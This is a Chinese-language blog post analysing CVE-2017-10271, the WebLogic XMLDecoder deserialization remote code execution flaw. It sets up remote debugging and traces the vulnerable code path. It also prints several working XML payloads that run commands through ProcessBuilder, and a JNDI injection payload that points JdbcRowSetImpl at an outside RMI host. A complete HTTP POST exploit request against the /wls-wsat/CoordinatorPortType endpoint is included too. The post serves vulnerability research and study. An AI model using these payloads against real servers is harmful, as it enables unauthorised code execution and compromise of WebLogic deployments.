








# weblogic 远程调试 XMLDecoder RCE CVE-2017-10271 - Afant1 - 博客园

> 原文：[`www.cnblogs.com/afanti/p/10222293.html`](https://www.cnblogs.com/afanti/p/10222293.html)

首先说一下远程调试的配置，首先在 weblogic 的启动文件加入如下配置，开启服务器远程调试端口就是 9999：

第二步，建立一个 java 的空项目。
第三步将 weblogic 的所有 jar 包拷出来，放到一个文件中。

第四步把 jar 包导入 idea 的 lib 配置中

第五步添加一个 remote,端口修改为 9999

在加入的 jar 包打断点后，点击 debug 小瓢虫的图标就能进一步调试了

下面开始说 xmldecoder 的反序列化：
xmldecode，xmlendoer 是将 xml 文件转化成 java bean,简单的小例子如下：
XMLTest.java

```
package me.lightless.shiro;

import java.beans.XMLEncoder;
import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
public class XMLTest {
        public void xmlEncode() throws Exception
         {
         MyInfo my = new MyInfo();
         my.setMyage(25);
         my.setMyName("google");
         my.setMyaddress("china");
         my.setMyEducation("master in science");

        XMLEncoder encoder = new XMLEncoder(
        new BufferedOutputStream(
        new FileOutputStream("myinfo.xml")));
         encoder.writeObject(my);
         encoder.close();
         System.out.println(my);
         }
         public void xmlDecode() throws Exception
         {
         java.beans.XMLDecoder decoder = new java.beans.XMLDecoder(
         new BufferedInputStream(new FileInputStream("myinfo.xml")));
         MyInfo my = (MyInfo)decoder.readObject();
         decoder.close();
         System.out.println(my);
         System.out.println("Your age: "+my.getMyage());
        }
         public static void main (String args[]) throws Exception {
         XMLTest st = new XMLTest();
         st.xmlEncode();
         st.xmlDecode();
         }
        } 
```

MyInfo.java

```
package me.lightless.shiro;

public class MyInfo {
    private int myage;

    public int getMyage() {
        return myage;
    }

    public void setMyage(int myage) {
        this.myage = myage;
    }

    public String getMyName() {
        return myName;
    }

    public void setMyName(String myName) {
        this.myName = myName;
    }

    public String getMyaddress() {
        return myaddress;
    }

    public void setMyaddress(String myaddress) {
        this.myaddress = myaddress;
    }

    public String getMyEducation() {
        return myEducation;
    }

    public void setMyEducation(String myEducation) {
        this.myEducation = myEducation;
    }

    private String myName;
    private String myaddress;
    private String myEducation;
} 
```

运行结果：

如果 xml 传入的是恶意代码，就能导致命令执行：
XmlDecoderTest.java

```
package me.lightless.shiro;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class XmlDecoderTest {

    public static void main(String[] args) {
        // TODO Auto-generated method stub
        java.io.File file = new java.io.File("E:\\Struts2-Vulenv-master\\Java-Unserialization-Study\\src\\main\\java\\me\\lightless\\shiro\\xmldecoder.xml");
        java.beans.XMLDecoder xd = null;
        try {
            xd = new XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
        } catch (FileNotFoundException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }

        Object s2 = xd.readObject();
        xd.close();
    }

} 
```

如下三种 payload 能够弹计算器：

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java> 
```

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <string>calc</string><method name="start" />
    </new>
</java> 
```

这个 payload 参考这个连接 jndi 注入
简单跟一下 jndi 注入：
payload 如下：

```
<soapenv:Envelope >
    <soapenv:Header>
    <work:WorkContext >
<java version="1.8.0_121" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
        <void property="dataSourceName">
         <string>rmi://121.195.170.127:2222/aa</string>
        </void>
        <void property="autoCommit">
            <boolean>true</boolean>
        </void>
    </void>
</java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope> 
```

autoCommit 设置为 true

将构造的 rmi 地址传入 lookup 触发漏洞

当 jdk 为 1.8 以上时需要设置 trustURLCodebase 为 true，代码执行到 com.sun.jndi.rmi.registry.RegistryContext

抛出如下异常导致 rce 失败。

**trustURLCodebase 为 true 怎么设置需要看下手册，留个坑**
[`paper.tuisec.win/detail/a5927ff39106516`](https://paper.tuisec.win/detail/a5927ff39106516)。

```
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
        <void property="dataSourceName">
            <string>rmi://localhost:1099/Exploit</string>
        </void>
        <void property="autoCommit">
            <boolean>true</boolean>
        </void>
    </void>
</java> 
```


提交如下 payload:

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 603

<soapenv:Envelope >
    <soapenv:Header>
    <work:WorkContext >
    <java><java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope> 
```

C:\Users\Administrator\Desktop\lib\weblogic.jar!\weblogic\wsee\jaxws\workcontext\WorkContextServerTube.class 在 40 行下断点，传入的参数。

跟进 readHeaderOld，跟进 WorkContextXmlInputAdapter

跟进行 XMLDecoder,var1 则是我们传入的 payload

调用的栈信息如下：

参考链接：
[`paper.seebug.org/487/`](https://paper.seebug.org/487/)
[`blog.csdn.net/defonds/article/details/83510668#_39`](https://blog.csdn.net/defonds/article/details/83510668#_39)
[`github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices%E7%BB%84%E4%BB%B6%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.md`](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices%E7%BB%84%E4%BB%B6%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.md)